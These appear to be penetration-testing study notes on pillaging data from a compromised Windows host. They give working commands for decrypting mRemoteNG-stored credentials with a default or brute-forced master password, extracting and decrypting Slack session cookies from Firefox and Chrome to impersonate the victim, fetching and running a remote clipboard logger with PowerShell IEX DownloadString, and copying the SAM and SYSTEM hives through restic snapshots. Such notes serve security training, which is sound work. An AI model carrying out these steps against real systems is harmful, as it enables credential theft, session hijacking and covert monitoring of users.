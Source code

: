 
### **Definition**

- Process of collecting _sensitive or valuable data_ from a compromised system.
- Targets: credentials, configs, backups, tokens, documents, logs, network data.

---

### **Data Sources**

- _Installed Applications & Services_: Office, RDP, SSH, browsers, databases.
- _Sensitive Data_: Keylogs, screenshots, audit reports.
- _User Info_: Clipboard, IM clients, browser data, saved documents.

---

### **Application Enumeration**

- **Directory Listing**:
```cmd
dir "C:\Program Files"
```
- **PowerShell Registry Check**:
```powershell
Get-ItemProperty HKLM:\...\Uninstall\*
```

---

### **mRemoteNG**

- Connection manager storing credentials in `confCons.xml`.
- Default path: `%APPDATA%\mRemoteNG\confCons.xml`
- Default master password: `mR3m`
```bash
python3 mremoteng_decrypt.py -s <EncryptedPassword>
```

#### _If custom master password used_:
```bash
python3 mremoteng_decrypt.py -s <EncryptedPassword> -p <MasterPassword>
```

#### _Password Cracking Loop_:
```bash
for password in $(cat wordlist.txt); do
  python3 mremoteng_decrypt.py -s <EncryptedPassword> -p $password
done
```

---

### **IM Clients – Cookie Abuse**

- _Slack_ used as example.
- Firefox stores cookies in `cookies.sqlite`
- Chrome stores encrypted cookies in `Cookies` file.

#### _Firefox Cookie Extraction_:
```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

```bash
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```

#### _Chrome Cookie Decryption (DPAPI)_:
```powershell
# Fix path mismatch
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"

# Load and extract
Invoke-SharpChromium -Command "cookies slack.com"
```
#### _Use Cookie with Browser Extension_:

- Install **Cookie-Editor**
- Set `d` cookie value → refresh → access Slack as victim user

---

### **Clipboard Monitoring**

- Useful if user pastes creds or tokens.
- Use **Invoke-ClipboardLogger**:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

---

### **Backup Server Targeting**

- Backup systems often run with _high privileges_.
- Useful for data recovery or lateral movement.

#### _Tool: Restic_

- Backup software storing data in repositories.
- Repo password via `RESTIC_PASSWORD` env variable.

##### _Init Repo_:
```powershell
restic.exe -r E:\repo init
```

##### _Backup Folder_:
```powershell
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\repo backup C:\SampleFolder
```

##### _Use VSS for Locked Files_:
```powershell
restic.exe -r E:\repo backup C:\Windows\System32\config --use-fs-snapshot
```

##### _List Snapshots_:
```powershell
restic.exe -r E:\repo snapshots
```

##### _Restore Backup_:
```powershell
restic.exe -r E:\repo restore <snapshot_id> --target C:\Restore
```

---

### **What to Look for in Backups**

- Windows: `SAM`, `SYSTEM`, `web.config`, DB files
- Linux: `/etc/shadow`, `.ssh/`, config files
- Web apps: Credentials in app configs
- Assess backup system privileges for lateral movement

---

### **Tips & Final Notes**

- Pillaging requires _patience_, _exploration_, and _creativity_.
- Not all data will be clearly marked or easy to parse.
- Always align with scope and goals defined during pre-engagement.